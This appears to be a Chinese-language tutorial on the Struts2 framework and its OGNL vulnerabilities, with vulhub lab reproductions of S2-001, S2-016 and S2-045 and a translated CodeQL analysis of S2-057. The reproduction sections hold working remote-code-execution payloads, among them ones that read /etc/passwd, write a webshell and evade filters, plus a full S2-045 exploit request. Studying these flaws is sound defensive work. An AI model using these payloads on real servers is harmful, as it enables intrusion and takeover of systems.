



# 漏洞复现与分析——Struts2系列漏洞


## struts2


Apache Struts 2最初被称为WebWork 2，它是一个简洁的、可扩展的框架，可用于创建企业级Java web应用程序。设计这个框架是为了从构建、部署、到应用程序维护方面来简化整个开发周期。

通常开发基于struts2的web应用时，你需要：jdk1.5+，apache tomcat（例如6.0.33），eclipse ide，struts2框架文件（例如struts-2.0.14-all.zip）。

struts2.2.3目录结构：



Struts2 是一个MVC拉动的（或MVC2）框架，Struts2 的模型-视图-控制器模式是通过以下五个核心部分进行实现的：
- 操作（Actions）
- 拦截器（Interceptors）
- 值栈（Value Stack）/OGNL
- 结果（Result）/结果类型
- 视图技术

Struts2 与传统的MVC框架略有不同，因为它由Action扮演模型的角色，而不是控制器，虽然这样会有一些重叠。



控制器是通过Struts2 分派servlet过滤器以及拦截器进行实现，模型是通过Actions进行实现，而视图则是结果类型和结果的结合。值栈和OGNL提供共同的路线、链接以及与其他组件之间的集成。

我们可以依照下面几点解释在Struts2 中用户的请求生命周期：
- 用户发送一个资源需求的请求到服务器（例如：点击一个超链接或提交一个HTML表单）。
- 核心控制器查看请求后确定适当的动作(控制器收集输入并发送一个叫Actions的Java类)。
- 使用验证、文件上传等配置拦截器功能。这是控制器的一部分，可依据需求创建拦截器，或使用现有的拦截器。
- 执行选择的动作来完成请求的操作。
另外，如果需要的话，配置的拦截器可做任何后期处理。
- 最后，由视图显示结果并返回给用户。
  - Result会选择一个资源给予响应。这个资源通常是一个JSP，也可以是一个PDF文件，一个Excel表格，或者是一个Java小程序窗口。
  - 视图是一个JSP，与用户进行交互，获取输入并呈现最终信息。

Configuration Files（配置文件）
创建配置文件来连接动作、视图以及控制器，这些文件分别是struts.xml、web.xml以及struts.properties。

### 配置文件
假设我们生成了一个struts2 HelloWorld 应用。

#### struts.xml 的文件
Struts2框架中核心组件就是Action、拦截器等，Struts2框架使用包来管理Action和拦截器等。每个包就是多个Action、多个拦截器、多个拦截器引用的集合。

在struts.xml文件中package元素用于定义包配置，每个package元素定义了一个包配置。它的常用属性有：

- name：必填属性，用来指定包的名字。
- extends：可选属性，用来指定该包继承其他包。继承其它包，可以继承其它包中的Action定义、拦截器定义等。
- namespace：可选属性，用来指定该包的命名空间。

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE struts PUBLIC
   "-//Apache Software Foundation//DTD Struts Configuration 2.0//EN"
   "http://struts.apache.org/dtds/struts-2.0.dtd">
<struts>
<constant name="struts.devMode" value="true" />
   <package name="helloworld" extends="struts-default">
     
      <action name="hello" 
            class="cn.w3cschool.struts2.HelloWorldAction" 
            method="execute">
            <result name="success">/HelloWorld.jsp</result>
      </action>
   </package>
</struts>
```

在我们的示例中，我们命名我们的动作为“hello”，与URL /hello.action保持一致，由HelloWorldAction.class进行备份。HelloWorldAction.class的execute方法就是当URL /hello.action被调用时运行。如果execute方法返回的结果为“success”，那么我们带用户进入HelloWorld.jsp。

struts.xml文件包含有随着Actions的开发你将要修改的配置信息。它可用于覆盖应用程序的默认设置，例如：struts.devMode=false 以及其他定义为属性文件的设置。这个文件可在WEB-INF/classes文件夹下创建。

又如：
```xml
<?xml version="1.0" encoding="UTF-8" ?>
<!DOCTYPE struts PUBLIC
  "-//Apache Software Foundation//DTD Struts Configuration 2.3//EN"
  "http://struts.apache.org/dtds/struts-2.3.dtd">
<struts>
    <!--<constant>元素用常量的配置-->
    <constant name="struts.enable.DynamicMethodInvocation" value="false" />
    <constant name="struts.devMode" value="true" />
    <!--<package>元素用于包配置-->
    <package name="default" namespace="/" extends="struts-default">
        <!--配置Action-->
        <action name="index" class="Xxx"/>
            <!--配置Result-->
            <result type="dispatcher">
                <param name="location">/index.jsp</param>
            </result>
        </action>
    </package>
    <!-- <include>元素用于包含配置 -->
    <include file="example.xml"/>
</struts>
```

在上述文件中，元素说明如下：
- struts 元素是文件的根元素，所有其他元素都放在 struts 中。
- constant 元素用于进行常量配置。
- package 元素用于进行包配置，在 Struts2 框架中，包用于组织 Action 和拦截器等信息，每个包都是由零个或多个拦截器以及 Action 所组成的集合。
- include 元素用于在一个 struts.xml 配置文件中包含其他的配置文件。


#### web.xml文件
创建一个web.xml文件，这是一个适用于Struts2 任何请求的接入点。在部署描述符（web.xml）中，Struts2 应用程序的接入点将会定义为一个过滤器。因此我们将在web.xml里定义一个org.apache.struts2.dispatcher.FilterDispatcher 类的接入点，而web.xml文件需要在WebContent的WEB-INF文件夹下创建。
```xml
<?xml version="1.0" encoding="UTF-8"?>
<web-app xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
   xmlns="http://java.sun.com/xml/ns/javaee" 
   xmlns:web="http://java.sun.com/xml/ns/javaee/web-app_2_5.xsd"
   xsi:schemaLocation="http://java.sun.com/xml/ns/javaee 
   http://java.sun.com/xml/ns/javaee/web-app_3_0.xsd"
   id="WebApp_ID" version="3.0">
   
   <display-name>Struts 2</display-name>
   <welcome-file-list>
      <welcome-file>index.jsp</welcome-file>
   </welcome-file-list>
   <filter>
      <filter-name>struts2</filter-name>
      <filter-class>
         org.apache.struts2.dispatcher.FilterDispatcher
      </filter-class>
   </filter>

   <filter-mapping>
      <filter-name>struts2</filter-name>
      <url-pattern>/*</url-pattern>
   </filter-mapping>
</web-app>
```

我们指定了index.jsp作为我们的欢迎文件，那么我们已经配置好了在所有的URL（列如：所有匹配/*模式的URL）上运行Struts2 过滤器。

web.xml配置文件是一种J2EE配置文件，决定servlet容器的HTTP元素需求如何进行处理。它严格来说不是一个Struts2 配置文件，但它是Struts2 运作所需要进行配置的文件。
正如前面所讨论的，这个文件为每个web应用程序提供接入点。在部署描述符（web.xml）中，Struts2 应用程序的接入点将会定义为一个过滤器。因此我们将在web.xml里定义一个FilterDispatcher类的接入点，而这个web.xml文件需要在WebContent/WEB-INF文件夹下创建。
如果你开始时没有模板或工具（比如Eclipse或Maven2）的辅助来生成，那这就是第一个你需要配置的文件。下面是我们在上一个例子中用到的web.xml的内容。
#### struts-config.xml文件
struts-config.xml配置文件是Web Client中View和Model组件之间的链接，但在你99.99％的项目里你不必使用这些设置。

```
下面是struts-config.xml文件的示例：

<?xml version="1.0" encoding="ISO-8859-1" ?>
<!DOCTYPE struts-config PUBLIC
"-//Apache Software Foundation//DTD Struts Configuration 1.0//EN"
"http://jakarta.apache.org/struts/dtds/struts-config_1_0.dtd">

<struts-config>

   <!-- ========== Form Bean Definitions ============ -->
   <form-beans>
      <form-bean name="login" type="test.struts.LoginForm" />
   </form-beans>

   <!-- ========== Global Forward Definitions ========= -->
   <global-forwards>
   </global-forwards>

   <!-- ========== Action Mapping Definitions ======== -->
   <action-mappings>
      <action
         path="/login"
         type="test.struts.LoginAction" >

         <forward name="valid" path="/jsp/MainMenu.jsp" />
         <forward name="invalid" path="/jsp/LoginView.jsp" />
      </action>
   </action-mappings>

   <!-- ========== Controller Definitions ======== -->
   <controller 
      contentType="text/html;charset=UTF-8"
      debug="3"
      maxFileSize="1.618M"
      locale="true"
      nocache="true"/>

</struts-config>
```
#### struts.properties文件
这个配置文件提供了一种机制来改变框架的默认行为。实际上，struts.properties配置文件中包含的所有属性也可以在web.xml中配置使用init-param，以及在struts.xml配置文件中使用constant标签。 但如果你想保持事件独立以及保留更多struts细节，那么你可以在WEB-INF/classes文件夹下创建这个文件。

struts.properties
文件中配置的值将覆盖

default.properties
中配置的默认值，这些值包含在struts2-core-x.y.z.jar分布中。有一些属性，你可以考虑改为使用

struts.properties
文件：
```
### When set to true, Struts will act much more friendly for developers
struts.devMode = true

### Enables reloading of internationalization files
struts.i18n.reload = true

### Enables reloading of XML configuration files
struts.configuration.xml.reload = true

### Sets the port that the server is run on
struts.url.http.port = 8080
```
## Struts2 代码执行原理

Struts2漏洞是一个经典的漏洞系列，根源在于Struts2引入了OGNL表达式使得框架具有灵活的动态性。Struts2的动态性在于ongl表达式可以获取到运行变量的值，并且有机会执行函数调用。如果可以把恶意的请求参数送到ognl的执行流程中，就会导致任意代码执行漏洞。ognl表达式的执行在Ognl相关的几个类里面，配置好调试环境后，对OgnlUtil类的getvalue或compileAndExecute函数下断点，就根据参数判断poc调用的流程，分析执行的原理了。

### Struts2 值栈/OGNL

值栈是一组对象，按照提供的顺序存储以下这些对象：
序号	对象和说明
1	Temporary对象
实际中存在各种在页面执行期间创建的temporary对象。例如，JSP标签循环集合的当前迭代值。

2	Model对象
如果在struts应用程序中使用Model对象，则当前Model对象放在值堆栈上的action之前。

3	Action对象
这是指正在执行的当前action对象。

4	命名对象
这些对象包括#application，#session，#request，#attr和#parameters以及所引用的相应的servlet作用域。

值栈可以通过为JSP，Velocity或Freemarker提供的标签进行访问。我们将在单独的章节中学习到用于获取和设置struts2 值栈的各种标签。你可以在action中获取值栈对象，如下所示：

ActionContext.getContext().getValueStack()

#### OGNL表达式
OGNL是Object Graphic Navigation Language(对象图导航语言)的缩写，他是一个开源项目。Struts框架使用OGNL作为默认的表达式语言。OGNL基于上下文中存有根对象或默认对象的理念，使用标记符号（即#号）来引用默认或根对象的属性。

OGNL 是 Object-Graph Navigation Language 的缩写，它是一种功能强大的表达式语言（Expression Language，简称为 EL），通过它简单一致的表达式语法，可以存取对象的任意属性，调用对象的方法，遍历整个对象的结构图，实现字段类型转化等功能。它使用相同的表达式去存取对象的属性。

我们知道在 java 中，一切都是对象，所以我们的 ognl 表达式必然是着手于某一个对象的，通常在 ognl 中，可以将待执行目标对象划分为三类
- 简单对象：(如基本数据类型，String)
  - ongl可直接访问，例如 `"name".length()` 或 `1+1`
- 非简单对象：(非简单对象，实例访问)
  - ongl访问方法是使用#号 + 对象名，例如`#demo.getName(参数)`。当然这个对象名需要在上下文中且可以根据名称唯一定位。
- 静态对象：(静态类)
  - ongl访问方法：以@开始，接上完整类名，再接@，然后是函数`@java.lang.Math@max(10,20)` 或 `@java.lang.System@getProperty(user.dir)`


OGNL 三要素：
- 表达式（Expression）

表达式是整个 OGNL 的核心，所有的 OGNL 操作都是针对表达式的解析后进行的。表达式会规定此次 OGNL 操作到底要干什么。我们可以看到，在上面的测试中，name、department.name 等都是表达式，表示取 name 或者 department 中的 name 的值。OGNL 支持很多类型的表达式，之后我们会看到更多。

- 根对象（Root Object）

根对象可以理解为 OGNL 的操作对象。在表达式规定了 “干什么” 以后，你还需要指定到底“对谁干”。在上面的测试代码中，user 就是根对象。这就意味着，我们需要对 user 这个对象去取 name 这个属性的值（对 user 这个对象去设置其中的 department 中的 name 属性值）。

- 上下文环境（Context）

有了表达式和根对象，我们实际上已经可以使用 OGNL 的基本功能。例如，根据表达式对根对象进行取值或者设值工作。不过实际上，在 OGNL 的内部，所有的操作都会在一个特定的环境中运行，这个环境就是 OGNL 的上下文环境（Context）。说得再明白一些，就是这个上下文环境（Context），将规定 OGNL 的操作 “在哪里干”。
OGN L 的上下文环境是一个 Map 结构，称之为 OgnlContext。上面我们提到的根对象（Root
Object），事实上也会被加入到上下文环境中去，并且这将作为一个特殊的变量进行处理，具体就表现为针对根对象（Root
Object）的存取操作的表达式是不需要增加 #符号进行区分的。


## 漏洞概述
Struts2 漏洞历年来发现了不少，从命名来看已经不下50个，单在vulhub中列出的有：

s2-005  s2-008  s2-012  s2-015  s2-032  s2-046  s2-052  s2-057 s2-001     s2-007  s2-009  s2-013  s2-016  s2-045  s2-048  s2-053  s2-059


### 判断网站使用Struts2框架
一般攻击者在攻击之前会判断网站是Struts2编写，主要看有没有链接是.action或者.do结尾的，这是因为配置文件struts.xml指定了action的后缀

`<constant name="struts.action.extension" value="action,," />`

具体还有以下几种情况：
- 采用默认配置文件解析之后，不带后缀的uri也会被解析为action的名字。例如：`localhost:8080/s23/index.action`

- 如果配置文件中常数extension的值以逗号结尾或者有空值，指明了action可以不带后缀，那么不带后缀的uri也可能是struts2框架搭建的。即：`localhost:8080/s23/index`


- 如果使用Struts2的rest插件，其默认的struts-plugin.xml指定的请求后缀为xhtml,xml和json。`<constant name="struts.action.extension" value="xhtml,,xml,json" />`根据后缀不同，rest插件使用不同的处理流程，如下请求json格式的数据，框架就使用了JsonLibHandler类对输出进行处理。`localhost:8080/s23/orders.json`

- xhtml和xml结尾的请求则使用HtmlHandler和XStreamHandler分别处理。所以在测试的时候，不能明确判断网站使用的是否为struts2框架时，特别是碰到后两种情况，都可以拿工具去试试运气。


## 漏洞复现

### s2-001

使用vulhub/struts/s2-001环境复现。安装过程参考github上vulhub README文档。

执行以下命令启动s2-001测试环境：
```
sudo docker-compose build
sudo docker-compose up -d
sudo docker-compose ps
# s2-001_struts2_1   catalina.sh run   Up      0.0.0.0:8080->8080/tcp

```

从浏览器访问 http://serverip:8080 可以看到一个简单的页面。页面链接为：`http://10.10.10.129:8080/login.action;jsessionid=73D9FA0C70C6A9BB985B831F8972DE2D` 其中，`login.action;`基本上说明该页面由struts2框架构建.

### POC && EXP

获取tomcat执行路径：

```
%{"tomcatBinDir{"+@java.lang.System@getProperty("user.dir")+"}"}
```

根据ongl语法和[Java 系统属性](https://docs.oracle.com/javase/tutorial/essential/environment/sysprop.html)，可以查看更多内容。

获取Web路径：

```
%{#req=@org.apache.struts2.ServletActionContext@getRequest(),#response=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse").getWriter(),#response.println(#req.getRealPath('/')),#response.flush(),#response.close()}
```

执行任意命令（命令加参数：`new java.lang.String[]{"cat","/etc/passwd"}`）：

```
%{#a=(new java.lang.ProcessBuilder(new java.lang.String[]{"cat","/etc/passwd"})).redirectErrorStream(true).start(),#b=#a.getInputStream(),#c=new java.io.InputStreamReader(#b),#d=new java.io.BufferedReader(#c),#e=new char[50000],#d.read(#e),#f=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse"),#f.getWriter().println(new java.lang.String(#e)),#f.getWriter().flush(),#f.getWriter().close()}
```
#### 漏洞原理
参考 [http://rickgray.me/2016/05/06/review-struts2-remote-command-execution-vulnerabilities.html](http://rickgray.me/2016/05/06/review-struts2-remote-command-execution-vulnerabilities.html)

- 该漏洞因为用户提交表单数据并且验证失败时，后端会将用户之前提交的参数值使用 OGNL 表达式 %{value} 进行解析;
- 然后重新填充到对应的表单数据中。例如注册或登录页面，提交失败后端一般会默认返回之前提交的数据，由于后端使用 `%{value}` 对提交的数据执行了一次 OGNL 表达式解析，所以可以直接构造 Payload 进行命令执行。

这个漏洞说了也是有趣，执行表达式了还回填给客户端。看来与表单数据验证部分的逻辑有密切关系。

S2-001是Struts2框架最刚开始出现的第一个漏洞，跟S2-045的执行过程也比较接近，都是经由`TextParseUtil.translateVariables` 执行OGNL表达式，TextParseUtil是文本处理的功能类。不同的是S2-001是在把jsp生成java类的时候，会对表单提交的参数调用`evaluateParams`从而调用文本处理类的OGNL求值功能。调用堆栈如下：

### s2-016

#### 漏洞原理
在struts2中，DefaultActionMapper类支持以"action:"、"redirect:"、"redirectAction:"作为导航或是重定向前缀，但是这些前缀后面同时可以跟OGNL表达式，由于struts2没有对这些前缀做过滤，导致利用OGNL表达式调用java静态方法执行任意系统命令。

#### 漏洞复现

在vulhub strut2 s2-016中，运行：
```
sudo docker-compose build
sudo docker-compose up -d

```
访问http://your-ip:8080

#### payload

`http://your-ip:8080/index.action?redirect:写入OGNL表达式即可执行`

##### payload1 获取内核信息 uname -a

```
redirect:${#context["xwork.MethodAccessor.denyMethodExecution"]=false,#f=#_memberAccess.getClass().getDeclaredField("allowStaticMethodAccess"),#f.setAccessible(true),#f.set(#_memberAccess,true),#a=@java.lang.Runtime@getRuntime().exec("uname -a").getInputStream(),#b=new java.io.InputStreamReader(#a),#c=new java.io.BufferedReader(#b),#d=new char[5000],#c.read(#d),#genxor=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse").getWriter(),#genxor.println(#d),#genxor.flush(),#genxor.close()}
```
由于之前的补丁禁用了一些静态方法，所以payload:
- 首先`#context["xwork.MethodAccessor.denyMethodExecution"]=false`令上下文中denyMethodExecution为false；
- 然后`#f=#_memberAccess.getClass().getDeclaredField("allowStaticMethodAccess"),#f.setAccessible(true),#f.set(#_memberAccess,true)`,获取被禁用的方法，使静态方法可被访问；
- `#a=@java.lang.Runtime@getRuntime().exec("uname -a").getInputStream()`执行系统命令，获取内核信息;
- 剩下的把信息输出的响应。

##### payload2 获取web目录：

```

redirect:${#req=#context.get('co'+'m.open'+'symphony.xwo'+'rk2.disp'+'atcher.HttpSer'+'vletReq'+'uest'),#resp=#context.get('co'+'m.open'+'symphony.xwo'+'rk2.disp'+'atcher.HttpSer'+'vletRes'+'ponse'),#resp.setCharacterEncoding('UTF-8'),#ot=#resp.getWriter (),#ot.print('web'),#ot.print('path:'),#ot.print(#req.getSession().getServletContext().getRealPath('/')),#ot.flush(),#ot.close()}
```

使用字符串了拼接方法，绕过字符串过滤；


##### payload3 webshell：

```
redirect:${#context["xwork.MethodAccessor.denyMethodExecution"]=false,#f=#_memberAccess.getClass().getDeclaredField("allowStaticMethodAccess"),#f.setAccessible(true),#f.set(#_memberAccess,true),#a=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletRequest"),#b=new java.io.FileOutputStream(new java.lang.StringBuilder(#a.getRealPath("/")).append(@java.io.File@separator).append("1.jspx").toString()),#b.write(#a.getParameter("t").getBytes()),#b.close(),#genxor=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse").getWriter(),#genxor.println("BINGO"),#genxor.flush(),#genxor.close()}
```

获取web目录路径后，创建 path/1.jspx 文件，写入几个字节，然后响应中写BINGO。

### s2-045

#### 漏洞复现

直接发送如下数据包，可见`233*233`已成功执行：

```
POST / HTTP/1.1
Host: localhost:8080
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_12_3) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/56.0.2924.87 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.8,es;q=0.6
Connection: close
Content-Length: 0
Content-Type: %{#context['com.opensymphony.xwork2.dispatcher.HttpServletResponse'].addHeader('vulhub',233*233)}.multipart/form-data


```

可以使用
```
vulhub-master/struts2/s2-045$ curl -i -X POST http://localhost:8080 -H "Content-Type: %{#context['com.opensymphony.xwork2.dispatcher.HttpServletResponse'].addHeader('vulhub',233*233)}.multipart/form-data"
```

结果如下：
```
HTTP/1.1 200 OK
Date: Thu, 11 Mar 2021 13:13:10 GMT
vulhub: 54289
Content-Type: text/html; charset=UTF-8
Set-Cookie: JSESSIONID=17arrcimgkpiq1t9i2y2n62wd8;Path=/
Expires: Thu, 01 Jan 1970 00:00:00 GMT
Content-Length: 495
Server: Jetty(9.2.11.v20150529)
...

```

显然，Content-Length: 495即表示ognl计算成功，那么其他payload可以去尝试了。
#### 漏洞分析


可以看到 request 请求大部分都是在浅黄色的过滤器和绿色的拦截器中间流转。

在有了具体的业务逻辑需要后台处理时，需要将 request 发送到对应的 Action 来处理，图中画的是 FilterDispatcher ，但在 Struts 2.5 以上已经将这个换成了 StrutsPrepareAndExecuteFilter 。

看到上图，去除 Struts2自带的核心部分，可以看到大部分的过程都是在过滤器和拦截器中间流转，而且对流转的Action并没有加以区分。

简单来说，过滤器对所有的请求都起到作用，主要用来对请求添加，修改或者分派转发至Action处理业务逻辑，图中的FilterDispatcher 就是起到这个作用的。

拦截器能对配置文件中匹配的 request 进行处理，并能获取 request 当中的上下文环境及数据。

漏洞触发后程序的调用栈先后顺序如下：
```
1.intercept:264,FileUploadInterceptor           文件上传拦截器处理报错信息
2.findText:393,LocalizedTextUtil
3.findText:573,LocalizedTextUtil                提取封装的Action中的值栈
4.getDefaultMessage:729,LocalizedTextUtil       值到对象转换
5.translateVariables:45,TextParseUtil
6.translateVariables:123,TextParseUtil
7.translateVariables:166,TextParseUtil          提取出ognl表达式并执行
8.evaluate:13,OgnlTextParser                    最后执行ognl表达式
```

这次的漏洞成因则更为奇怪，解析出错误信息的ognl表达式并执行。 最后，当动态调试此类漏洞时，前往 ognl表达式执行的方法处下断点调试，马上就能一目了然的看到漏洞触发的完整调用栈。

### s2-057
这个漏洞触发，当Struts2的配置满足以下条件时：
- alwaysSelectFullNamespace值为true
- action元素未设置namespace属性，或使用了通配符

namespace将由用户从uri传入，并作为OGNL表达式计算，最终造成任意命令执行漏洞。影响版本: 小于等于 Struts 2.3.34 与 Struts 2.5.16


#### 原理分析

如何在分析历史漏洞的基础上去发现一个新漏洞？

>翻译自：Man Yue Mo，["How to find 5 RCEs in Apache Struts with CodeQL"](https://securitylab.github.com/research/apache-struts-CVE-2018-11776)
##### Mapping the attack surface

许多漏洞是由于从不可信的源（source）引入了数据（例如用户输入）到特定位置（sink）后，数据被以危险的方式去使用。例如：sql query，deserialization，other interpreting... 

CodeQL 能够比较容易的查询这类漏洞。使用时需要简要描述source 和 sink，然后让 DataFlow 库完成工作。如果已知一些历史漏洞，那么将是开始此类研究工作的好方式。因为历史漏洞的poc或分析会让你了解source 和 sink。

为了找到struts2的新漏洞，我们研究了S2-032,S2-033,S2-037等。类似别的Struts RCE，大多因为读取了不受信任的ognl表达式并在服务器端执行，攻击者设计了shell利用这个漏洞。上述3个漏洞非常有趣，不仅是因为它们让我们了解一些struts内部工作原理，还因为他们使用了3种方法去修复同样的问题。这个问题就是输入数据经变量`methodName`传递，它会作为`OgnlUtil::getValue()`方法的参数。

```java
String methodName = proxy.getMethod();    //<--- untrusted source, but where from?
LOG.debug("Executing action method = {}", methodName);
String timerKey = "invokeAction: " + proxy.getActionName();
try {
    UtilTimerStack.push(timerKey);
    Object methodResult;
    try {
        methodResult = ognlUtil.getValue(methodName + "()", getStack().getContext(), action); //<--- RCE

```

上面的`proxy`有类型`ActionProxy`，它是一个接口。查看它的定义，除了上面用于指定被污染变量`methodName`的`getMethod()`，还有别的多个方法，例如`getActionName()` , `getNamespace()`等。这些方法看起来能够从URL种读取信息并返回。所以我假设所有的这类方法能够返回一个不可信输入。下面就是深入挖掘这些输入从哪来的。


现在我们可以开始使用CodeQL 的语言来建模这些不可信sources，命名QL：
```java
class ActionProxyGetMethod extends Method {
  ActionProxyGetMethod() {
    getDeclaringType().getASupertype*().hasQualifiedName("com.opensymphony.xwork2", "ActionProxy") and
    (
      hasName("getMethod") or
      hasName("getNamespace") or
      hasName("getActionName")
    )
  }
}

predicate isActionProxySource(DataFlow::Node source) {
   source.asExpr().(MethodAccess).getMethod() instanceof ActionProxyGetMethod
}
```
##### 识别这些ONGL sinks
上面已经识别和描述了一些不可信sources，下一步就是对sinks做同样的事。如上所述，许多Struts RCEs会将输入解释为OGNL表达式。Struts种有许多函数最终执行以OGNL执行他们的参数。

上面说的3个漏洞种，他们利用了`OgnlUtil::getValue()`，而s2-045中利用了`TextParseUtil::translateVariables()`。我们没有把这些方法作为各自独立的sinks，而是视其为执行OGNL的通用函数，所以使用`OgnlUtil::compileAndExecute()` 和`OgnlUtl::compileAndExecuteMethod()` 作为近似的sinks。

使用一个QL描述：
```java
predicate isOgnlSink(DataFlow::Node sink) {
  exists(MethodAccess ma | ma.getMethod().hasName("compileAndExecute") or ma.getMethod().hasName("compileAndExecuteMethod") |
    ma.getMethod().getDeclaringType().getName().matches("OgnlUtil") and
    sink.asExpr() = ma.getArgument(0)
  )
}
```

##### 污染跟踪的首次尝试

现在有了使用CodeSQL的sources和sinks，我们在一个taint-tracking中使用这些定义。我们使用DataFlow库来做跟踪，所以要定义一个DataFlow 配置：

```java
class OgnlTaintTrackingCfg extends DataFlow::Configuration {
  OgnlTaintTrackingCfg() {
    this = "mapping"
  }

  override predicate isSource(DataFlow::Node source) {
    isActionProxySource(source)
  }

  override predicate isSink(DataFlow::Node sink) {
    isOgnlSink(sink)
  }

  override predicate isAdditionalFlowStep(DataFlow::Node node1, DataFlow::Node node2) {
    TaintTracking::localTaintStep(node1, node2) or
    exists(Field f, RefType t | node1.asExpr() = f.getAnAssignedValue() and node2.asExpr() = f.getAnAccess() and
      node1.asExpr().getEnclosingCallable().getDeclaringType() = t and
      node2.asExpr().getEnclosingCallable().getDeclaringType() = t
    )
  }
}

from OgnlTaintTrackingCfg cfg, DataFlow::Node source, DataFlow::Node sink
where cfg.hasFlow(source, sink)
select source, sink
```

这里使用了先前定义的 `isActionProxySource` and `isOgnlSink` predicates.

注意，上面重载了一个 predicate，名为isAdditionalFlowStep。它包含了污染数据在哪里可以被传播的步骤。例如，它可以让我们合并本项目的特定信息到flow 配置中。例如，如果我有通过某些网络层通信的组件，我可以使用CodeQL描述各种网络端点的情况，使DataFlow库可以抽象地跟踪被污染数据。

对于此处的qurey，我增加了两个额外的flow steps供DataFlow使用。第一个是`TaintTracking::localTaintStep(node1, node2)` 。标准CodeQL TaintTracking library steps会跟踪标准的java library calls， string operations等。第二个step是一种允许我们由field访问跟踪污染数据的近似做法。

```
exists(Field f, RefType t | node1.asExpr() = f.getAnAssignedValue() and node2.asExpr() = f.getAnAccess() and
  node1.asExpr().getEnclosingCallable().getDeclaringType() = t and
  node2.asExpr().getEnclosingCallable().getDeclaringType() = t
)
```
上面这段语句是说：如果某个field被安排了一些污染数据，那么对该field的一个访问也将考虑受污染，只要两个表达式都被同一类型的方法调用。简单讲，它们会合并下列case：

```
public void foo(String taint) {
  this.field = taint;
}

public void bar() {
  String x = this.field; //x is tainted because field is assigned to tainted value in `foo`
}
```
可以看到bar中this.field并不总被污染，例如如果再bar函数执行前，foo没有被调用。因此，我们不能再默认的`DataFlow::Configuration`中包含这个flow步骤，我们不能保证数据总是以这个方式流动。然而为了捕捉漏洞，我发现增加这个是有用的，所以经常将其包含在我的`DataFlow::Configuration`中。除此以外还有一些额外的flow steps可以使用，用于发现bug。

##### 初始结果和查询优化

运行上面的代码，查看结果，我注意到由s2-032，s2-033，s2-037漏洞造成的问题还在。在看别的结果之前，我想研究一下为什么这些已经被修复的问题仍然被标记。这证明了虽然第一个漏洞最初是通过清除输入来修复的，但是在S2-037之后，Struts团队决定使用`OgnlUtil::callMethod()`替换调用`OgnlUtil::getValue() `。即`methodResult = ognlUtil.callMethod(methodName + "()", getStack().getContext(), action);`

这个callMethod包装了一个对compileAndExecuteMethod()的调用：
```
public Object callMethod(final String name, final Map<String, Object> context, final Object root) throws OgnlException {
  return compileAndExecuteMethod(name, context, new OgnlTask<Object>() {
    public Object execute(Object tree) throws OgnlException {
      return Ognl.getValue(tree, context, root);
    }
  });
}
```
而 compileAndExecuteMethod 在执行前对表达式进行了额外的检查。
```
private <T> Object compileAndExecuteMethod(String expression, Map<String, Object> context, OgnlTask<T> task) throws OgnlException {
  Object tree;
  if (enableExpressionCache) {
    tree = expressions.get(expression);
    if (tree == null) {
      tree = Ognl.parseExpression(expression);
      checkSimpleMethod(tree, context); //<--- Additional check.
    }
```

这意味着，我们可以从自己的sink中删掉compileAndExecuteMethod（）了。[再次运行](https://lgtm.com/query/1506466898138/)，作为一个sink的getMethod不见了。然而，在DefaultActionInvocation.java仍然有一些结果，例如调用getActioName().

##### 路径探索和更多的查询精华
略，详情查看原文。
##### 新的漏洞
仅剩下10对sources 和 sinks，可以手工检查他们是否真有问题。检查后发现一些是无效的，所以在查询中增加了一些barriers，以过滤出这些路径。这下就有一些结果了。


## 漏洞修复

### struts2 补丁修复思路
